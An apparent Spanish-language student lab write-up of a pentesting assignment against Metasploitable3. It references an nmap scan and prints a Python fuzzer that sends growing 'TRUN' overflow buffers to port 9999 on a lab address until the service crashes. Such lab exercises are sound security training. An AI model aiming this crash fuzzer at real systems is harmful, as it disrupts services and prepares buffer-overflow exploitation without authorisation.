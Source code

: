 ```yaml
---
title: TAREA 02
date: 2024-11-04 23:30:00 -05:00
categories: [recon, kill chain, pentesting]
tags: [map, kali, execution]  # TAG names should always be lowercase
---
```

## Herramientas Utilizadas
- **Kali Linux**: Distribución especializada en pruebas de penetración y ciberseguridad.
- **Metasploitable3**: Máquina virtual vulnerable, usada como objetivo para pruebas de penetración.

## Pasos Realizados y Resultados

### Paso 1: Escaneo de Red con Nmap
Para descubrir los puertos abiertos y servicios activos en Metasploitable3, se realizó un escaneo básico usando `nmap`:

![alt text](/assets/images/Fototarea2/image.png)
![alt text](/assets/images/Fototarea2/image-1.png)
En la ulimt imagen se puede observar que se pierde conexción
Luego de usar el siguiente codigo:

#!/usr/bin/python import sys, socket from time import sleep buffer = "A" * 100 ip_address = '10.0.2.15' while True: try: s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect((ip_address,9999)) s.send(('TRUN /.:/' + buffer).encode(`utf-8`)) s.close() sleep(1) buffer = buffer + "A" * 100 except: print("Fuzzing crash en %s bytes " % str(len(buffer)) ) sys.exit()
![alt text](/assets/images/Fototarea2/image-2.png)
Se muestran los resultados:
![alt text](/assets/images/Fototarea2/image-3.png)
![alt text](/assets/images/Fototarea2/image-4.png)
![alt text](/assets/images/Fototarea2/image-5.png)
![alt text](/assets/images/Fototarea2/image-6.png)
![alt text](/assets/images/Fototarea2/image-7.png)